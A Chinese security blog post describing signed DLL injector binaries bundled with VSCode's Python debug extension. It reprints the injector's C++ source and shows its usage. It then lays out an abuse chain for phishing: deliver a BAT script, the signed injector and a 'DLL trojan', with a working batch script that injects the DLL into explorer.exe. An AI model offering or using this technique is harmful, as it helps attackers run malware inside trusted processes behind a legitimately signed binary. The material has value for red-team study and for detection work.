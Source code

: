 ```yaml
---
title: "VsCode扩展中的DLL注入器"
date: 2023-09-08
description: 早上 @Akkuman 说看到Vsocde中的扩展目录中有疑似签名过的DLL注入器，遂记录一下。
url: /archivers/2023-09-08/vscode-dll
tags: vscode
---
```


<aside>
💡 VSCode是一款由微软开发的免费且开源的代码编辑器，支持多种编程语言，可通过安装扩展包来进一步扩展其功能。VSCode的扩展包具有丰富的功能，包括但不限于代码片段、自动完成、调试工具、主题等。用户可以轻松地在VSCode中安装、管理和使用扩展包，以满足个人的编程需求。

</aside>

安装完毕Python调试扩展后，会在扩展目录中生成一些文件：

![0](https://images.payloads.online/2024-07-29-1ac07f2ccf6b6ba8768b96e62815f150289ca24887a111685646538b567130d5.png)  


![1](https://images.payloads.online/2024-07-29-8ba004d0a43efcfa27809998a10469e46d3e380ea3ed0c3122c60583d5a0ee6b.png)  

其中以下两个文件是DLL注入器，分别对应X86和X64位操作系统：

- inject_dll_x86.exe
- inject_dll_amd64.exe

在windows文件夹中还保留了注入器的源代码：

![2](https://images.payloads.online/2024-07-29-03d06e145c8996fcbaafefa67c5c28df4b4f53a9f77b69a21cfefebd0fea9d28.png)  


> 路径：`C:\Users\Administrator\.vscode\extensions\ms-python.python-2022.20.2\pythonFiles\lib\python\debugpy\_vendored\pydevd\pydevd_attach_to_process\windows`
> 

```cpp
// inject_dll.cpp
#include <iostream>
#include <windows.h>
#include <stdio.h>
#include <conio.h>
#include <tchar.h>
#include <tlhelp32.h>

#pragma comment(lib, "kernel32.lib")
#pragma comment(lib, "user32.lib")

// Helper to free data when we leave the scope.
class DataToFree {
public:
    HANDLE hProcess;
    HANDLE snapshotHandle;
    
    LPVOID remoteMemoryAddr;
    int remoteMemorySize;
    
    DataToFree(){
        this->hProcess = nullptr;
        this->snapshotHandle = nullptr;
        
        this->remoteMemoryAddr = nullptr;
        this->remoteMemorySize = 0;
    }
    
    ~DataToFree() {
        if(this->hProcess != nullptr){
            
            if(this->remoteMemoryAddr != nullptr && this->remoteMemorySize != 0){
                VirtualFreeEx(this->hProcess, this->remoteMemoryAddr, this->remoteMemorySize, MEM_RELEASE);
                this->remoteMemoryAddr = nullptr;
                this->remoteMemorySize = 0;
            }
            
            CloseHandle(this->hProcess);
            this->hProcess = nullptr;
        }

        if(this->snapshotHandle != nullptr){
            CloseHandle(this->snapshotHandle);
            this->snapshotHandle = nullptr;
        }
    }
};

/**
 * All we do here is load a dll in a remote program (in a remote thread).
 *
 * Arguments must be the pid and the dll name to run.
 *
 * i.e.: inject_dll.exe <pid> <dll path>
 */
int wmain( int argc, wchar_t *argv[ ], wchar_t *envp[ ] )
{
    std::cout << "Running executable to inject dll." << std::endl;
    
    // Helper to clear resources.
    DataToFree dataToFree;
    
    if(argc != 3){
        std::cout << "Expected 2 arguments (pid, dll name)." << std::endl;
        return 1;
    }
 
    const int pid = _wtoi(argv[1]);
    if(pid == 0){
        std::cout << "Invalid pid." << std::endl;
        return 2;
    }
    
    const int MAX_PATH_SIZE_PADDED = MAX_PATH + 1;
    char dllPath[MAX_PATH_SIZE_PADDED];
    memset(&dllPath[0], '\0', MAX_PATH_SIZE_PADDED);
    size_t pathLen = 0;
    wcstombs_s(&pathLen, dllPath, argv[2], MAX_PATH);
    
    const bool inheritable = false;
    const HANDLE hProcess = OpenProcess(PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD | PROCESS_VM_READ | PROCESS_VM_WRITE | PROCESS_QUERY_INFORMATION, inheritable, pid);
    if(hProcess == nullptr || hProcess == INVALID_HANDLE_VALUE){
        std::cout << "Unable to open process with pid: " << pid << ". Error code: " << GetLastError() << "." << std::endl;
        return 3;
    }
    dataToFree.hProcess = hProcess;
    std::cout << "OpenProcess with pid: " << pid << std::endl;
    
    const LPVOID remoteMemoryAddr = VirtualAllocEx(hProcess, nullptr, MAX_PATH_SIZE_PADDED, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if(remoteMemoryAddr == nullptr){
        std::cout << "Error. Unable to allocate memory in pid: " << pid << ". Error code: " << GetLastError() << "." << std::endl;
        return 4;
    }
    dataToFree.remoteMemorySize = MAX_PATH_SIZE_PADDED;
    dataToFree.remoteMemoryAddr = remoteMemoryAddr;
    
    std::cout << "VirtualAllocEx in pid: " << pid << std::endl;
    
    const bool written = WriteProcessMemory(hProcess, remoteMemoryAddr, dllPath, pathLen, nullptr);
    if(!written){
        std::cout << "Error. Unable to write to memory in pid: " << pid << ". Error code: " << GetLastError() << "." << std::endl;
        return 5;
    }
    std::cout << "WriteProcessMemory in pid: " << pid << std::endl;
    
    const LPVOID loadLibraryAddress = (LPVOID) GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    if(loadLibraryAddress == nullptr){
        std::cout << "Error. Unable to get LoadLibraryA address. Error code: " << GetLastError() << "." << std::endl;
        return 6;
    }
    std::cout << "loadLibraryAddress: " << pid << std::endl;
    
    const HANDLE remoteThread = CreateRemoteThread(hProcess, nullptr, 0, (LPTHREAD_START_ROUTINE) loadLibraryAddress, remoteMemoryAddr, 0, nullptr);
    if (remoteThread == nullptr) {
        std::cout << "Error. Unable to CreateRemoteThread. Error code: " << GetLastError() << "." << std::endl;
        return 7;
    }
    
    // We wait for the load to finish before proceeding to get the function to actually do the attach.
    std::cout << "Waiting for LoadLibraryA to complete." << std::endl;
    DWORD result = WaitForSingleObject(remoteThread, 5 * 1000);
    
    if(result == WAIT_TIMEOUT) {
        std::cout << "WaitForSingleObject(LoadLibraryA thread) timed out." << std::endl;
        return 8;
        
    } else if(result == WAIT_FAILED) {
        std::cout << "WaitForSingleObject(LoadLibraryA thread) failed. Error code: " << GetLastError() << "." << std::endl;
        return 9;
    }
    
    std::cout << "Ok, finished dll injection." << std::endl;
    return 0;
}
```

签名情况：

![3](https://images.payloads.online/2024-07-29-86bbb43d1859d52ea12e73cc03a6b184a25e4f0239431b109b35aa49de3c27d9.png)  

使用方式，只需要两个参数：

- pid : 目标进程的进程ID
- dll name: 想要注入目标进程的DLL绝对路径

```cpp
C:\Users\Administrator\Downloads>inject_dll_amd64.exe
Running executable to inject dll.
Expected 2 arguments (pid, dll name).
```

测试效果：

![4](https://images.payloads.online/2024-07-29-d239af6fc3a3e340f245ce3f15dd9d50a35f4d1b876b14760207326feea194f0.png)  


滥用思路：

1. 钓鱼的时候可以发送一个BAT批处理脚本、dll注入器、dll木马
2. BAT批处理：获取x64进程的pid
3. BAT批处理：获取dll木马绝对路径
4. BAT批处理：执行dll注入器，将dll木马注入到目标进程中

![5](https://images.payloads.online/2024-07-29-6427dc8baed64cec09ed7934e49ef9188954f50c44761035110c9f7f93562fdd.png)  

```bash
@echo off
set target_process_name=explorer.exe
set dll_name=calc_x64.dll
set injecter=inject_dll_amd64.exe
for /f "tokens=2" %%i in ('tasklist ^| findstr /i "%target_process_name%"') do set "pid=%%i"
set "command=%CD%\%injecter% %pid% %CD%\%dll_name%"
%command%
```

**注意：被注入的DLL文件路径必须是绝对路径才可以注入成功**

最后的最后，致谢 @Akkuman